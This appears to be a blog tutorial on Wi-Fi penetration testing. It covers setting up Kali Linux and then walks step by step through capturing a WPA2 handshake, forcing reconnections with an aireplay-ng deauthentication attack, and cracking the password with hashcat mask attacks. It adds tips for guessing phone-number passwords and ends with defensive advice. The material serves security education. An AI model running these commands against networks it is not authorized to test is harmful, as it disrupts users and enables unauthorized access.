---
title: Why most Wi-Fi networks are insecure
date: 2024-09-30
tags:
    - Wi-Fi
    - Security
    - Networking
    - Penetration Testing
categories:
    - Security
image: header.jpg
---

## Introduction

In our interconnected society Wi Fi networks are everywhere offering easy internet access at home, workplaces and public areas. Yet many people don't realize the security risks that come with it easily exploitable, with tools. This piece dives into a Wi Fi vulnerability testing procedure to show how vulnerable most networks are emphasizing the importance of beefed up security measures.

## Setting up the environment

Before delving into examining Wi Fi vulnerabilities in detail it is important to create a testing environment for penetration tests. Utilizing a machine (VM ) is the recommended and most secure approach for deploying Kali Linux, a widely used distribution, for penetration testing purposes.

### 1. Installation of Kali Linux

Download the latest VM image from the official download page, which is compatible with your virtualization software: [Kali Linux website](https://www.kali.org/get-kali/). The Kali Linux already provides pre-made VM images for:

* **VMware**
* **VirtualBox**

Select the appropriate one for your virtualization platform.

### 2. Software installation

If not yet installed, download and install one of the following virtualization softwares:

* **[VMware Workstation Player](https://www.vmware.com/products/workstation-player.html)** (Free for personal use)
* **[Oracle VM VirtualBox](https://www.virtualbox.org/)** (Free to use and open-source)

### 3. Setting up the VM

#### For VMware Users

1. **Import the VM Image:**
   * Run VMware Workstation Player.
   * Choose the downloaded file in Open under File.
   * Follow everything on the screen to import the VM.



2. **Configure VM Settings (Optional):**
   * Customize memory and CPU options according to your system's capabilities.
   * Make sure that the network adapter corresponds to your needs either **Bridged** or **NAT**.



#### For VirtualBox Users

1. **Import the VM Image:**
   * Open VirtualBox.
   * Choose File then Import to choose the .ova file you have downloaded.
   * Complete the instructions to add the VM.

2. **Configure VM Settings (Optional):**
   * Right-click on the Kali VM and select **Settings**.
   * Tweak System settings regarding memory and processors.
   * Make sure that the network adapter corresponds to your needs either **Bridged** or **NAT**.

### 4. Kali Linux Installation

Once the VM is set up, you need to go through the installation process of Kali Linux. To do this,

1. Power on the VM by selecting it and hitting the **Start** button.
2. You'll see the Kali Linux boot menu. Choose "Graphical Install" or "Install", whichever your preference is.
3. Proceed with the installation by going through each step in TUI:
   * Select Language, Location and Keyboard layout.
   * Configure the network: usually this is set for default
   * Configure users and password: remember to insert a good password
   * Partition disk: usually you can select Guided - use entire disk and set up LVM
   * Install base system and additional packages.

   

4. Once the installation is complete, the system will ask you to reboot it.



### 5. Launching Kali Linux

* When the machine reboots, you will be greeted by the Kali Linux login screen.
* Log in with your username and password given during installation.


* If you haven't changed the default credentials during installation, then these will be:
  * **Username:** `kali`
  * **Password:** `kali`
* You are strongly advised to alter this default password during first usage of Kali Linux:

   ```shell
   passwd
   ```

### 6. Updating Kali Linux

Ensure your Kali Linux instance is up to date:

```shell
sudo apt update && sudo apt full-upgrade -y
```

### 7. Configuring external Wi-Fi adapter

For effective wireless penetration testing, an external Wi-Fi adapter that supports monitor mode and packet injection is necessary.

1. **Connect the Wi-Fi Adapter:**

   * Plug the adapter into your computer.
   * I will be using the USB-C to USB-A to use one of my Wi-Fi adapters is based on Ralink RT5370

   
   

2. **Attach the Adapter to the VM:**

   * **For VMware:**
      * Every time any USB gets connected you will get a pop-up saying whether you want to leave with Parent PC or pass it down to VM

      

      OR

      * Go to **Virtual Machine** > **USB** > **Connect "Name of you device"**.

      

   * **For VirtualBox:**
      * Go to **Devices** > **USB** > Select your Wi-Fi adapter.

3. **Verify the Adapter in Kali:**

   ```shell
   iwconfig
   ```

   

### 8. Testing the Setup

Confirm that your Wi-Fi adapter can enter monitor mode:

```shell
sudo airmon-ng start wlan0
```



Once the Kali Linux VM is established we can go straight to penetration testing and get around the issue listed above

## Understanding Wi-Fi vulnerabilities

Older security protocols in Wi-Fi networks make them vulnerable to diverse attacks. Hackers can steal the data and enter areas they are not allowed to reach. The steps involved in a conventional Wi-Fi penetration testing scenario will be explained in this analysis to reveal these vulnerabilities.

> **⚠️ IMPORTANT ETHICAL AND LEGAL NOTICE ⚠️**
>
> **It is important to point out that such password cracking should be carried out on networks one owns or is explicitly authorized to do some testing of. Cracking passwords on other people's networks is considered illegal and totally unethical.**

## Wi-Fi penetration testing process

### 1. Checking network interfaces

Begin by collecting information regarding your system interfaces and networks first.

```shell
# See version of Kali Linux
cat /etc/os-release
uname -a
```



```shell
# List network interfaces
ip addr
iwconfig
```



As we can already see the name from `wlan0` has been changed to `wlan0mon` indicating that the adapter is in monitor mode right now

The tools for performing penetration tests are included in Kali Linux from the start.

### 2. Killing conflicting processes

```shell
sudo airmon-ng check kill
```

Turning off network related services solves problems related to setting up monitor mode needed for packet capture.

### 3. Enabling Monitor Mode

```shell
sudo airmon-ng start wlan0
```

Switch the wireless interface to monitor mode, if it didn't happen in previous steps to start captureing traffic.

```shell
# Verify monitor mode
sudo airmon-ng
iwconfig
```



### 4. Scanning for Access Points

Search for nearby Wi-Fi access points to find our final target.

```shell
sudo airodump-ng wlan0mon
```




The tool `airodump-ng` shares complete information regarding accessible networks including channels and BSSIDs.

### 5. Capturing Handshake Data

```shell
# Start capturing packets on the target network
sudo airodump-ng -w dump -c [channel] --bssid [BSSID] wlan0mon
```



Replace `[channel]` and `[BSSID]` with the information of your target network. The handshake occurs when any device connects to your network. Capturing this is your chance to try and test the password of the network offline.

### 6. Launch a deauthentication attack

Force devices to reconnect to the network, thereby increasing the probability of capturing handshake data.

Create another window of Terminal application and place it to the side of already running command done by the previous step

```shell
sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```

Replace `BSSID` by your own. Deauthentication attacks prevent users from using the connections by making all connected devices re-authenticate so that the process can be intercepted.







So now we can procceed to step 7 to precisely look for EAPOL handshake and extract it to pass less data to converter or just skip it, as we already know the dump already contains needed data

### 7. Captured data analysis using Wireshark (optional)

Look for captured packets and confirm that a successful handshake was captured.

```shell
wireshark dump-01.cap
```




`EAPOL` is a part of the Wireshark filter which makes it easy to find the relevant authentication packets. You should have seen this keyword on the previous step, indicating that someone has connected to network. We can extract only `EAPOL` handshakes to make the file size smaller or convert(next step) the file without modifying it, which works in mostly every way, if you don't do long scans (> 5 mins)

### 8. Convert captured file into a format for our next tool

Using the official converter provided by the Hashcat team, the capture file needs to be converted into a suitable format. Online tool can be used from [here](https://hashcat.net/cap2hashcat/) or using the CLI

Make sure you restart NetworkManager to gain Internet access back, otherwise you will not be able to download the package

```shell
sudo systemctl restart NetworkManager
```

If you want to use CLI tool over a simple website, then you have to install `hcxtools` package which contains mostly everything from Hashcat team.


```shell
sudo apt install hcxtools
hcxpcapngtool -o dump.hc22000 dump-01.cap
```

After execution you should see something like that




### 9. Decoding captured file's hash to real password

Finally, let's do a password strength test using Hashcat. I will be testing this on my Macbook Pro 16 2021 with M1 Pro GPU and i7-8700 + RX 6600 XT using macOS Sonoma (Hackintosh)

```shell
hashcat -m 22000 dump.hc22000 -a 3 "?d?d?d?d?d?d?d?d"
```

where:

* `-m 22000` specifies the WPA-PBKDF2-PMKID+EAPOL algorithm.
* `-a 3` indicates a mask attack.
* `"?d"` represents a digit.

#### Time to crack the hash

| **GPU**            | **Cracking Time (8-digit numerical password)** |
|--------------------|------------------------------------------------|
| AMD RX 6600 XT     | ~5 minutes                                     |
| NVIDIA GTX 1660 Ti | ~10 minutes                                    |
| Apple M1 Pro GPU   | ~12 minutes                                    |
| Apple M1 GPU       | ~40 minutes                                    |










In order to test the strength of Wi-Fi passwords, many users rely on simple or default passwords such as 8-digit numerical combinations. Added to the defaults above, many users use their phone numbers as Wi-Fi passwords, and these in turn also follow predictable formats, especially within certain regions.

For instance, a Ukrainian phone number like `0661234567`, `0951234567` is of a pattern already known and can be used to shrink the number of iterations during a password strength test

### 10. Accessing network

If the password is determined in no time, that is a clear indication of bad security. This information is valuable for the utilization of strong, complicated passwords to secure Wi-Fi networks.

## Implications and why most Wi-Fi networks are insecure

### Weak passwords

Too many users assign simple, easily guessed passwords. The use of default or common passwords makes brute-force attacks successful.

### Use of outdated security protocols

Those networks which still make use of WEP or which have WPA/WPA2 but are poorly configured remain highly susceptible to attacks. Even WPA2 may become compromised provided it is not installed correctly.

### Lack of user awareness

Users often are uninformed regarding Wi-Fi security and hence never change default settings. Typical person would install the router and never touch it again until it breaks. They don't use intergrated web interface to see who is connected to network, which is a quite handy feature.

### Availability of Testing Tools

All of the tools utilized in this tutorial are free to download and very accessible. This means that the threshold to test network security is low, but potential abuse because of that fact is much greater.

## Securing Your Wi-Fi Network

### Use Strong, Complex Passwords

Passwords should be long and consist of a range of letter, numeric, and special characters.

### Improve Security Settings

Use WPA3 if it's an option. Do not use anything less than WPS2 with AES encryption enabled.

### Disable WPS

WPS can be an active vulnerability in security. We can cover this in another article, where we could discuss WPS as a potential exploit. Disabling this feature removes another vector for attack.

If you have a TP-LINK router, you can do this:
Go to the router's admin panel (typically `192.168.0.1`)

* Log in with your credentials
* Click on the `Advanced` tab
* Tap `Wireless` and select `WPS` from the menu
* Turn that setting off



### Router Firmware Update

Vendors publish updates to fix vulnerabilities. Keeping the firmware updated improves security.

### Monitor Connected Devices

Periodically **look** and see what devices are connected to your network to find unauthorized access.

### Phishing


Independent from the above technical weaknesses, **phishing** remains probably one of the most persistent and effective attack methods. Phishing does not exploit directly the Wi-Fi protocols but instead targets the user to steal sensitive information, such as passwords or personal data. No matter how much network security advances, phishing attacks will always be an issue since they rely on human trust and error. This is the reason why user awareness against phishing is as crucial as any technical defense. In the long term, teaching users how to recognize phishing attempts may turn out to be the most important strategy for securing Wi-Fi networks.

## Conclusion

The fact that a Wi-Fi network can be cracked and accessed so easily using tools that are widely available shows a severe security gap. In fact, through understanding these vulnerabilities, users would be aware of the steps they must take to secure their networks: from strong passwords to updated protocols and the like to increased vigilance against unauthorized access.

## References

* [Kali Linux Official Documentation](https://www.kali.org/docs/)
* [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
* [Hashcat Wiki](https://hashcat.net/wiki/)
* [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
